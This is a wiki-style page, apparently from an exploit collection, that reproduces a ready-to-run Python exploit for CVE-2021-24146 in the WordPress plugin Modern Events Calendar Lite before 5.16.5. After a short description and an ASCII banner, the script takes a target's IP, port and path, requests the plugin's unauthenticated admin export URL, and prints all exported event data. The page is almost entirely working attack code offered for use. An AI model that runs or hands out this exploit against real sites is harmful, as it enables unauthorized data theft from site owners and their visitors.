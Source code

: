 <languages /> <translate>

影響版本
--------

</translate> Version: Before 5.16.5

EXP
---

    # Exploit Title: Wordpress Plugin Modern Events Calendar 5.16.2 - Event export (Unauthenticated)
    # Date 01.07.2021
    # Exploit Author: Ron Jost (Hacker5preme)
    # Vendor Homepage: https://webnus.net/modern-events-calendar/
    # Software Link: https://downloads.wordpress.org/plugin/modern-events-calendar-lite.5.16.2.zip
    # Version: Before 5.16.5
    # Tested on: Ubuntu 18.04
    # CVE: CVE-2021-24146
    # CWE: CWE-863, CWE-284
    # Documentation: https://github.com/Hacker5preme/Exploits/blob/main/Wordpress/CVE-2021-24146/README.md

    '''
    Description:
    Lack of authorisation checks in the Modern Events Calendar Lite WordPress plugin,
    versions before 5.16.5, did not properly restrict access to the export files,
    allowing unauthenticated users to exports all events data in CSV or XML format for example.
    '''


    '''
    Banner:
    '''
    banner = """
       _______    ________    ___   ____ ___  ___     ___  __ __ _____ __  _____
      / ____/ |  / / ____/   |__ \ / __ __ \<  /    |__ \/ // /<  / // / / ___/
     / /    | | / / __/________/ // / / /_/ // /_______/ / // /_/ / // /_/ __ \
    / /___  | |/ / /__/_____/ __// /_/ / __// /_____/ __/__  __/ /__  __/ /_/ /
    ____/  |___/_____/    /____/____/____/_/     /____/ /_/ /_/  /_/  ____/

                * WordPress Plugin Modern Events Calendar Lite < 5.16.2 - Export Event Data (Unauthenticated)
                * @Hacker5preme

    """
    print(banner)


    '''
    Import required modules:
    '''
    import requests
    import argparse
    import csv

    '''
    User-Input:
    '''
    my_parser = argparse.ArgumentParser(description='Wordpress Plugin Modern Events CalendarExport Event Data (Unauthenticated)')
    my_parser.add_argument('-T', '--IP', type=str)
    my_parser.add_argument('-P', '--PORT', type=str)
    my_parser.add_argument('-U', '--PATH', type=str)
    args = my_parser.parse_args()
    target_ip = args.IP
    target_port = args.PORT
    wp_path = args.PATH


    '''
    Exploit:
    '''
    print('')
    print('[+] Exported Data: ')
    print('')
    exploit_url = 'http://' + target_ip + ':' + target_port + wp_path + '/wp-admin/admin.php?page=MEC-ix&tab=MEC-export&mec-ix-action=export-events&format=csv'
    answer = requests.get(exploit_url)
    decoded_content = answer.content.decode('utf-8')
    cr = csv.reader(decoded_content.splitlines(), delimiter=',')
    my_list = list(cr)
    for row in my_list:
        print(row)